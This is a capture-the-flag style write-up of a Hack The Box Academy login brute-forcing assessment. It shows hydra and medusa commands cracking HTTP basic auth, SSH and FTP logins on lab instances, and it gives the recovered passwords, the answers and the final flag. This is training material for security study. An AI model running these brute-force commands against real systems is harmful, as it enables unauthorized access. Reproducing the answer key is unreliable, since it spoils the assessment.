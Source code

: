 # [Login Brute Forcing](https://academy.hackthebox.com/module/details/57)

## Skills Assessment (Part 1)

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

### Questions

#### Question #01

**Question**

What is the password for the basic auth login?

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-fknfgb0jab]─[~]
└──╼ [★]$ whatweb http://83.136.251.97:54448/

http://83.136.251.97:54448/ [401 Unauthorized] Country[FINLAND][FI], HTTPServer[nginx/1.27.1], IP[83.136.251.97], Title[401 Authorization Required], WWW-Authenticate[Restricted][Basic], nginx[1.27.1]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-fknfgb0jab]─[~]
└──╼ [★]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 83.136.251.97 http-get / -s 54448

[SNIP]

[54448][http-get] host: 83.136.251.97   login: admin   password: Admin123

[SNIP]
```

**Answer**

```
Admin123
```

#### Question #02

**Question**

After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

![Firefox - Basic Authentication Login](./assets/screenshots/login_brute_forcing_firefox_basic_authentication_login.png)

**Answer**

```
satwossh
```

## Skills Assessment (Part 2)

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

### Questions

#### Question #01

**Question**

What is the username of the ftp user you find via brute-forcing?

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-fknfgb0jab]─[~]
└──╼ [★]$ nc 94.237.58.172 48094

SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-fknfgb0jab]─[~]
└──╼ [★]$ hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.58.172 ssh -s 48094

[SNIP]

[48094][ssh] host: 94.237.58.172   login: satwossh   password: password1

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-fknfgb0jab]─[~]
└──╼ [★]$ ssh satwossh@94.237.58.172 -p 48094

[SNIP]

satwossh@94.237.58.172's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)
satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$
```

```
satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ ls -la

total 36
drwxr-xr-x 1 satwossh satwossh 4096 May 27 09:22 .
drwxr-xr-x 1 root     root     4096 Sep 12  2024 ..
drwx------ 2 satwossh satwossh 4096 May 27 09:22 .cache
-rw------- 1 satwossh satwossh  572 Sep 10  2024 IncidentReport.txt
-rw------- 1 satwossh satwossh 1605 Sep 12  2024 passwords.txt
drwxr-xr-x 1 satwossh satwossh 4096 Sep 12  2024 username-anarchy

satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ cat IncidentReport.txt 

System Logs - Security Report

Date: 2024-09-06

Upon reviewing recent FTP activity, we have identified suspicious behavior linked to a specific user. The user **Thomas Smith** has been regularly uploading files to the server during unusual hours and has bypassed multiple security protocols. This activity requires immediate investigation.

All logs point towards Thomas Smith being the FTP user responsible for recent questionable transfers. We advise closely monitoring this user’s actions and reviewing any files uploaded to the FTP server.

Security Operations Team

satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ ./username-anarchy/username-anarchy Thomas Smith > thomas_smith_usernames.txt

satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ head -n 3 passwords.txt 

123456
123456789
picture1
```

```
satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ netstat -tunlp | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -  

satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ medusa -h 127.0.0.1 -U thomas_smith_usernames.txt -P passwords.txt -M ftp -f -t 5

[SNIP]

ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]

[SNIP]
```

**Answer**

```
thomas
```

#### Question #02

**Question**

What is the flag contained within `flag.txt`.

```
satwossh@ng-1461567-loginbfsatwo-sgr1t-8557fbf76f-h8j4g:~$ ftp ftp://thomas:'chocolate!'@localhost

Connected to localhost.
220 (vsFTPd 3.0.5)

[SNIP]

ftp> ls
-rw-------    1 1001     1001           28 Sep 10  2024 flag.txt

ftp> get flag.txt
local: flag.txt remote: flag.txt
226 Transfer complete.

ftp> !cat flag.txt
HTB{brut3f0rc1ng_succ3ssful}
```

**Answer**

```
HTB{brut3f0rc1ng_succ3ssful}
```

---
---